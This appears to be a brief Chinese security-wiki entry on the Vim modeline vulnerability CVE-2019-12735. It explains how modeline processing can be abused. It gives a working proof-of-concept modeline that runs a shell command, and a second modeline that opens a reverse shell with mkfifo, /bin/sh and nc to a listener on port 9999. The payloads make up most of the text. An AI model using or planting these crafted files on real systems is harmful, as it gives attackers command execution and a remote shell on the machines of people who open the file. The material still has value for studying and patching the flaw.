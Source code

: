 # （CVE-2019-12735）vim modeline

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当vim打开一个包含了vim modeline注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim默认关闭modeline。 开启：

```bash
vim ~/.vimrc
//文件内容为
set modeline

```

```bash
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

```

![](images/security_wiki/15905492392371.png)


反弹shell：

```bash
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

```

![](images/security_wiki/15905492467713.png)


